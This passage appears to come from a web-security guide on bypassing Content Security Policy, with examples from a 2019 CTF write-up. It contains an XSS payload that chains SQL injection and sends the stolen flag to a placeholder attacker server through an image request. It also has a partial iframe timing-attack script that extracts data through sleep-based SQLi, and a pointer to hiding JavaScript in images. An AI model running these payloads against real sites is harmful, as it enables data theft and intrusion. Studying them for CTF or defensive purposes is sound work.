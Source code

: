 `'unsafe-inline'` means that you can execute any script inside the code \(XSS can execute code\) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP exfiltrating the data via images \(in this occasion the XSS abuses a CSRF where a page accessible by the bot contains a SQLi, and extract the flag via an image\):

```javascript
<script>fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new Image().src='http://PLAYER_SERVER/?'+_)</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows to load images from twitter. You could **craft** an **special image**, **upload** it to twitter and abuse the "**unsafe-inline**" to **execute**a JS code \(as a regular XSS\) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

###  img-src \*; via XSS \(iframe\) - Time attack

Notice the lack of the directive `'unsafe-inline'`    
This time you can make the victim **load** a page in **your control** via **XSS** with a `<iframe`. This time you are going to make the victim access the page from where you want to extract information \(**CSRF**\). You cannot access the content of the page, but if somehow you can **control the time the page needs to load**  you can extract the information you need.

This time a **flag** is going to be extracted, whenever a **char is correctly guessed** via SQLi the **response** takes **more time** due to the sleep function. Then, you will be able to extract the flag:

```javascript
<iframe name=f id=g></iframe> // The bot will load an URL with the payload
<script>
let host = "http://x-oracle-v1.nn9ed.ka0labs.org";
function gen(x) {
	x = escape(x.replace(/_/g, '\\_'));
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag%20like%20'${x}%25'and%201=sleep(0.1)%23`; 
}

function gen2(x) {
	x = escape(x);
	return `${host}/admin/search/x'union%20select(1)from%20challenge%20where%20flag='${x}'and%201=sleep(0.1)%23`;
}

async function query(word, end=false) { 
	let h = performance.now();
	f.location = (end ? gen2(word) : gen(word));
	await new Promise(r => {
		g.onload = r; 
	});
	let diff = performance.now() - h;
	return diff > 300;
}

let alphabet = '_abcdefghijklmnopqrstuvwxyz0123456789'.split('');
let postfix = '}'

async function run() {
	let prefix = 'nn9ed{';
	while (true) {
		let i = 0;
		for (i;i<alphabet.length;i++) {
```